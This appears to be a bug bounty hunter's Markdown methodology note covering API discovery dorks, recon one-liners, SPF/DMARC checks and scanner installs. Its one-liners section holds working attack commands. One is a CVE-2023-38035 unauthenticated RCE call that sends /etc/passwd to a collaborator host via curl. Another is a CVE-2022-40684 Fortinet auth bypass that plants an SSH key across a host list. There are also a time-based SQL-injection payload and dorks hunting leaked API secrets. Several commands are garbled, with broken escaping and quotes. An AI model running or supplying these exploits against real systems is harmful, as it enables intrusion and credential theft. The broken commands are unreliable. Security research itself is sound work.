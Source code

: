 ```yaml
---
tags:
  - hunting-methodology
---
```

PUT# Subdomain Enumeration
[[Subdomain Enumeration]]
# API
1. Check for documentation 
	- Swagger -> `/openapi.json`
	- GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema 
	- manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
	- `site:target.tld inurl:api`
	- `intitle:"index of" "api.yaml" site:target.tld`
	- `intitle:"index of" intext:"apikey.txt" site:target.tld`
	- `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
	- https://wordlists-cdn.assetnote.io/data/automated/httparchive_apiroutes_2023_08_28.txt
	- swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
	- Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

# One-liners & Quick Wins
```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# sitemap xss
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```
-----
# Mail Server Misconfiguration
## No Valid SPF Records / No DMARC Record
check all domains here: [SPF Query Tool (kitterman.com)](https://www.kitterman.com/spf/validate.html?)
POC With: [Emkei's Fake Mailer](https://emkei.cz/) | [Mail Server Misconfiguration | Bug Bounty PoC | 0xKayala - YouTube](https://www.youtube.com/watch?v=p8L_MAJ0byU)
check with : [MX Lookup Tool - Check your DNS MX Records online - MxToolbox](https://mxtoolbox.com/)
### **References**
[How To use an SPF Record to Prevent Spoofing & Improve E-mail Reliability | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-use-an-spf-record-to-prevent-spoofing-improve-e-mail-reliability)
[Chainlink | Report #629087 - No Valid SPF Records. | HackerOne](https://hackerone.com/reports/629087)

------
# Fingerprinting
-  Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)
    
    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
    
- Waf Detect
    
    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
- **[uncover](https://github.com/projectdiscovery/uncover)** >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.
	```python
	# installation
	go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
	# configuration file 
	$HOME/.config/uncover/provider-config.yaml
	# usage
	uncover -q "test.com" -e censys,fofa,shodan
	```